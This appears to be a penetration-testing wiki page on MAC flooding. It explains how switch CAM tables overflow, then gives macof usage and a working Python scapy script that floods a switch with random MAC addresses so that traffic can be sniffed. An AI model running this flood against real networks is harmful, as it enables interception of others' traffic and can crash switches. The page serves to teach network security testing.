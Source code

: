 # MAC Flood

## <mark style="color:red;">CAM Table</mark>

![](<../../../.gitbook/assets/image (284) (1) (1).png>)

• CAM Table stands for Content Addressable Memory

• The CAM Table stores information such as MAC addresses available on physical ports with their associated VLAN parameters

• CAM Tables have a fixed size

## <mark style="color:red;">Normal CAM Behavior</mark>

![](<../../../.gitbook/assets/image (277) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (300) (1) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (276) (1) (1) (1) (1) (1) (1).png>)

## <mark style="color:red;">CAM Overflow</mark>

• Theoretical attack until May 1999

• macof tool since May 1999 (about 100 lines of perl)

• Based on CAM Table’s limited size

![](<../../../.gitbook/assets/image (293) (1) (1) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (281) (1) (1) (1) (1).png>)

#### <mark style="color:green;">Dsniff (macof) can generate 480,000 MAC entries on a switch per minute 8000/s\*60.</mark>

Assuming a perfect hash function the CAM table will total out at 128,000 (16,000 x 8) 131,052 to be exact Since hash isn’t perfect it actually takes 70 seconds to fill the CAM table.

#### Once table is full, traffic without a CAM entry floods on the VLAN, but NOT existing traffic with an existing CAM entry

![](<../../../.gitbook/assets/image (297) (1) (1) (1) (1).png>)

Syntax:

```
macof [-i interface] [-s src] [-d dst] [-e tha] [-x sport] [-y dport] [-n times]

-i   interface Specify the interface to send on.
-s   src Specify source IP address.
-d   dst Specify destination IP address.
-e   Specify target hardware address.
-x   sport Specify TCP source port.
-y   dport Specify TCP destination port.
-n   times Specify the number of packets to send
```

#### Macof can flood a switch with random MAC addresses. This is called MAC flooding. This fills in the switch’s CAM table, thus new MAC addresses can not be saved, and the switch starts to send all packets to all ports, so it starts to act as a hub, and thus we can monitor all traffic passing through it.

## <mark style="color:red;">Targeted Flooding</mark>

Macof can flood a switch with random MAC addresses destinated to 192.168.1.1.

```
macof -i eth1 -n 10
```

While conducting a pentest, this tool comes in handy while sniffing. Some switches don’t allow to spoof arp packets. This tool can be used in such situations to check if the switch is overloaded. Some switches behave like hubs, transmitting all source packets to all destinations. Then sniffing would be very easy. Some switches tend to crash & reboot also. Such kind of layer 2 stress testing can be done with this handy tool

## <mark style="color:red;">MAC flooding with scapy</mark>

```python
#! /usr/bin/python

nbpkts = 8192
iface = "eth0"

import sys
from scapy.all import sendpfast, Ether, IP, RandIP, RandMAC, TCP

print("Initializing...")

# We first build all packets...
pkts = []
for i in xrange(0, nbpkts):
  macaddr = str(RandMAC())
  # Quick-and-dirty way to ensure that the I/G remains unset
  macaddr = macaddr[:1] + "0" + macaddr[2:]
  # This packet structure mimics a TCP SYN sent to a HTTP server.
  # A random dst mac should also work, setting one fixed can be useful
  # to easily filter-out flood-related packets when capturing traffic.
  # You can use IPs valid for your range, but be cautious that if any
  # host is made to send some RST for instance its MAC address will be
  # registered by the switches.
  pkts.append(Ether(src=macaddr, dst="ff:ff:ff:ff:ff:ff")/
              IP(src=str(RandIP()), dst=str(RandIP()))/
              TCP(dport=80, flags="S", options=[('Timestamp', (0, 0))]))

print("Launching attack, press Ctrl+C to stop...")

# ...and then we send them in loop.
while True:
  # Adapt pps (Packets Per Second) to your needs. Running a complex
  # GNS3 topology on a low-end machine will take all the CPU causing
  # packet loss, pps will then need to be high to replay lost packets.
  # Given enough CPU, packet loss can remain low and pps can be lowered
  # too.
  sendpfast(pkts, iface=iface, file_cache=True, pps=5000, loop=999)
```

